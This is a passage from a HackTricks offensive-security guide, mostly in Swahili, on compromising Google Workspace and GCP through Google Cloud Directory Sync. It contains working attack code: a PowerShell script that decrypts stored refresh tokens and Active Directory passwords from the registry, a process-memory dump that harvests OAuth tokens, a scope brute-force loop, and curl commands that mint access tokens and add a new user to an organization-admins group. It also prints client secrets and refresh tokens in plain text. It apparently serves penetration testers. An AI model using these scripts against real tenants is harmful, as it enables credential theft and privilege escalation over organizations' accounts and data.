https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Baadhi ya mifano inayotumia baadhi ya maeneo hayo:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** ni nyongeza kwa Google Workspace inayotoa zana za uhifadhi wa data, utafutaji, na usafirishaji wa data za shirika lako zilizohifadhiwa katika huduma za Google Workspace kama Gmail, Drive, Chat, na zaidi.

* **Kitu** katika Google Workspace Vault ni **kikasha** kinachopanga na kuunganisha taarifa zote zinazohusiana na kesi maalum, uchunguzi, au suala la kisheria. Inatumika kama kituo kuu cha kusimamia **Holds**, **Searches**, na **Exports** zinazohusiana na suala hilo maalum.
* **Hold** katika Google Workspace Vault ni **kitendo cha uhifadhi** kinachotumika kwa watumiaji au vikundi maalum ili **kuzuia kufutwa au kubadilishwa** kwa data zao ndani ya huduma za Google Workspace. Holds zinahakikisha kuwa taarifa muhimu inabaki salama na isiyobadilishwa kwa muda wa kesi ya kisheria au uchunguzi.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
More [API endpoints in the docs](https://developers.google.com/vault/reference/rest).

</details>

## GCDS - Google Cloud Directory Sync

Hii ni zana ambayo inaweza kutumika **kusawazisha watumiaji na vikundi vya active directory kwenye Workspace yako** (na si kinyume chake wakati wa kuandika hii).

Ni ya kuvutia kwa sababu ni zana ambayo itahitaji **vithibitisho vya superuser wa Workspace na mtumiaji wa AD mwenye mamlaka**. Hivyo, inaweza kuwa inawezekana kuipata ndani ya seva ya kikoa ambayo itakuwa ikisawazisha watumiaji mara kwa mara.

{% hint style="info" %}
Ili kufanya **MitM** kwa **`config-manager.exe`** binary ongeza tu mstari ufuatao katika faili la `config.manager.vmoptions`: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
Kumbuka kwamba [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) ina uwezo wa kugundua **GCDS**, kupata taarifa kuhusu usanidi na **hata nywila na vithibitisho vilivyofichwa**.
{% endhint %}

Pia kumbuka kwamba GCDS haitasawazisha nywila kutoka AD hadi Workspace. Ikiwa kuna kitu, itazalisha nywila za nasibu kwa watumiaji wapya walioundwa katika Workspace kama unavyoona katika picha ifuatayo:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokens & AD Credentials

Binary `config-manager.exe` (binary kuu ya GCDS yenye GUI) itahifadhi vithibitisho vya Active Directory vilivyowekwa, token ya kusasisha na ufikiaji kwa default katika **xml file** katika folda **`C:\Program Files\Google Cloud Directory Sync`** katika faili inayoitwa **`Untitled-1.xml`** kwa default. Ingawa inaweza pia kuhifadhiwa katika `Documents` za mtumiaji au katika **folda nyingine yoyote**.

Zaidi ya hayo, rejista **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** ndani ya ufunguo **`open.recent`** ina njia za faili zote za usanidi zilizofunguliwa hivi karibuni (xmls). Hivyo inawezekana **kuangalia ili kuzipata**.

Taarifa ya kuvutia zaidi ndani ya faili itakuwa:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Note how the **refresh** **token** and the **password** of the user are **encrypted** using **AES CBC** with a randomly generated key and IV stored in **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (mahali popote ambapo **`prefs`** maktaba ya Java inahifadhi mapendeleo) katika funguo za string **`/Encryption/Policy/V2.iv`** na **`/Encryption/Policy/V2.key`** zilizohifadhiwa katika base64.

<details>

<summary>Powershell script to decrypt the refresh token and the password</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
Kumbuka kwamba inawezekana kuangalia habari hii kwa kuangalia msimbo wa java wa **`DirSync.jar`** kutoka **`C:\Program Files\Google Cloud Directory Sync`** ukitafuta mfuatano `exportkeys` (kama hiyo ndiyo param ya cli ambayo binary `upgrade-config.exe` inatarajia kutupa funguo).
{% endhint %}

Badala ya kutumia skripti ya powershell, pia inawezekana kutumia binary **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** na param `-exportKeys` na kupata **Key** na **IV** kutoka kwenye rejista kwa hex na kisha tumia cyberchef na AES/CBC na funguo hiyo na IV ili kufichua habari.

### GCDS - Kutupa tokeni kutoka kwenye kumbukumbu

Kama ilivyo na GCPW, inawezekana kutupa kumbukumbu ya mchakato wa `config-manager.exe` (hii ndiyo jina la binary kuu la GCDS lenye GUI) na utaweza kupata tokeni za refresha na ufikiaji (ikiwa tayari zimeundwa).\
Nadhani pia unaweza kupata akidi zilizowekwa za AD.

<details>

<summary>Dump config-manager.exe processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Kutengeneza alama za ufikiaji kutoka kwa alama za upya

Kwa kutumia alama ya upya, inawezekana kutengeneza alama za ufikiaji kwa kutumia hiyo na kitambulisho cha mteja na siri ya mteja zilizoainishwa katika amri ifuatayo:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Scopes

{% hint style="info" %}
Kumbuka kwamba hata ukiwa na token ya kusasisha, si rahisi kuomba scope yoyote kwa token ya ufikiaji kwani unaweza tu kuomba **scopes zinazoungwa mkono na programu ambapo unazalisha token ya ufikiaji**.

Pia, token ya kusasisha si halali katika kila programu.
{% endhint %}

Kwa default, GCSD haitaweza kupata kama mtumiaji kwa kila scope ya OAuth inayowezekana, hivyo kutumia script ifuatayo tunaweza kupata scopes ambazo zinaweza kutumika na `refresh_token` kuzalisha `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Na hii ndiyo matokeo niliyopata wakati wa kuandika:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Unda mtumiaji na umuweke kwenye kundi `gcp-organization-admins` ili kujaribu kupandisha hadhi katika GCP
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'
```
{% hint style="danger" %}
Haiwezekani kumpa mtumiaji mpya jukumu la Super Amin kwa sababu **token ya kusasisha haina maeneo ya kutosha** kutoa mamlaka zinazohitajika.
{% endhint %}

## Usawazishaji wa Katalogi ya Admin

Tofauti kuu kati ya njia hii ya kusawazisha watumiaji na GCDS ni kwamba GCDS inafanywa kwa mikono kwa kutumia binaries ambazo unahitaji kupakua na kuendesha wakati **Usawazishaji wa Katalogi ya Admin ni bila seva** unaosimamiwa na Google katika [https://admin.google.com/ac/sync/externaldirectories](https://admin.google.com/ac/sync/externaldirectories).

Wakati wa kuandika hii huduma iko katika beta na inasaidia aina 2 za usawazishaji: Kutoka **Active Directory** na kutoka **Azure Entra ID:**

* **Active Directory:** Ili kuweka hii unahitaji kutoa **ufikiaji kwa Google kwa mazingira yako ya Active Directory**. Na kwa kuwa Google ina ufikiaji tu kwa mitandao ya GCP (kupitia **VPC connectors**) unahitaji kuunda kiunganishi na kisha kufanya AD yako ipatikane kutoka kwa kiunganishi hicho kwa kuwa na hiyo katika VMs katika mtandao wa GCP au kutumia Cloud VPN au Cloud Interconnect. Kisha, unahitaji pia kutoa **akisi** ya akaunti yenye ufikiaji wa kusoma juu ya katalogi na **cheti** kuwasiliana kupitia **LDAPS**.
* **Azure Entra ID:** Ili kuunda hii inahitajika tu **kuingia katika Azure na mtumiaji mwenye ufikiaji wa kusoma** juu ya usajili wa Entra ID katika pop-up inayonyeshwa na Google, na Google itahifadhi token yenye ufikiaji wa kusoma juu ya Entra ID.

Mara tu ikikamilishwa vizuri, chaguzi zote mbili zitawawezesha **kusawazisha watumiaji na vikundi kwa Workspace**, lakini haitaruhusu kuunda watumiaji na vikundi kutoka Workspace hadi AD au EntraID.

Chaguzi nyingine ambazo zitapatikana wakati wa usawazishaji huu ni:

* Tuma barua pepe kwa watumiaji wapya kuingia
* Kubadilisha kiotomatiki anwani yao ya barua pepe kuwa ile inayotumika na Workspace. Hivyo ikiwa Workspace inatumia `@hacktricks.xyz` na watumiaji wa EntraID wanatumia `@carloshacktricks.onmicrosoft.com`, `@hacktricks.xyz` itatumika kwa watumiaji walioundwa katika akaunti.
* Chagua **vikundi vinavyokuwa na watumiaji** ambao watasawazishwa.
* Chagua **vikundi** vya kusawazisha na kuunda katika Workspace (au onyesha kusawazisha vikundi vyote).

### Kutoka AD/EntraID -> Google Workspace (& GCP)

Ikiwa unafanikiwa kuingilia AD au EntraID utakuwa na udhibiti kamili wa watumiaji na vikundi ambavyo vitasawazishwa na Google Workspace.\
Hata hivyo, zingatia kwamba **nywila** ambazo watumiaji wanaweza kuwa wanatumia katika Workspace **zinaweza kuwa zile zile au si**.

#### Kushambulia watumiaji

Wakati usawazishaji unapotokea inaweza kusawazisha **watumiaji wote kutoka AD au wale tu kutoka OU maalum** au tu **watumiaji wanachama wa vikundi maalum katika EntraID**. Hii inamaanisha kwamba ili kushambulia mtumiaji aliye sawa (au kuunda mpya anayesawazishwa) itabidi kwanza ufanye utafiti ni watumiaji gani wanayosawazishwa.

* Watumiaji wanaweza kuwa **wanatumia nywila ile ile au si kutoka AD au EntraID**, lakini hii inamaanisha kwamba itabidi **uingilie nywila za watumiaji ili kuingia**.
* Ikiwa una ufikiaji wa **barua pepe** za watumiaji, unaweza **kubadilisha nywila ya Workspace ya mtumiaji aliyepo**, au **kuunda mtumiaji mpya**, subiri hadi ipate usawazishaji na kuanzisha akaunti.

Mara tu unapoingia mtumiaji ndani ya Workspace inaweza kutolewa baadhi ya **idhini za msingi**.

#### Kushambulia Vikundi

Unahitaji pia kubaini kwanza ni vikundi gani vinavyosawazishwa. Ingawa kuna uwezekano kwamba **VIKUNDI VYOTE** vinavyosawazishwa (kama Workspace inaruhusu hili).

{% hint style="info" %}
Zingatia kwamba hata kama vikundi na uanachama vinapoingizwa katika Workspace, **watumiaji ambao hawajasawazishwa katika usawazishaji wa watumiaji hawataundwa** wakati wa usawazishaji wa vikundi hata kama ni wanachama wa mojawapo ya vikundi vilivyowekwa sawa.
{% endhint %}

Ikiwa unajua ni vikundi gani kutoka Azure vinavyokuwa **vimepewa idhini katika Workspace au GCP**, unaweza tu kuongeza mtumiaji aliyeingiliwa (au mpya aliyeundwa) katika kikundi hicho na kupata hizo idhini.

Kuna chaguo lingine la kutumia vikundi vilivyopatikana vya mamlaka katika Workspace. Kwa mfano, kikundi `gcp-organization-admins@<workspace.email>` kawaida kina mamlaka ya juu juu ya GCP.

Ikiwa usawazishaji kutoka, kwa mfano EntraID, hadi Workspace ume **pangwa kubadilisha domain** ya kitu kilichopitishwa **na barua pepe ya Workspace**, itakuwa inawezekana kwa mshambuliaji kuunda kikundi `gcp-organization-admins@<entraid.email>` katika EntraID, kuongeza mtumiaji katika kikundi hiki, na kusubiri hadi usawazishaji wa vikundi vyote ufanyike.\
**Mtumiaji ataongezwa katika kikundi `gcp-organization-admins@<workspace.email>` akipandisha mamlaka katika GCP.**

### Kutoka Google Workspace -> AD/EntraID

Zingatia kwamba Workspace inahitaji akisi zenye ufikiaji wa kusoma tu juu ya AD au EntraID ili kusawazisha watumiaji na vikundi. Kwa hivyo, haiwezekani kutumia Google Workspace kufanya mabadiliko yoyote katika AD au EntraID. Hivyo **hii haiwezekani** kwa wakati huu.

Sijui pia Google inahifadhi wapi akisi za AD au token ya EntraID na huwezi **kuziokoa kwa kuunda upya usawazishaji** (hazionekani katika fomu ya wavuti, unahitaji kuzipatia tena). Hata hivyo, kutoka kwenye wavuti inaweza kuwa inawezekana kutumia kazi ya sasa ili **orodhesha watumiaji na vikundi**.

## Marejeleo

* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
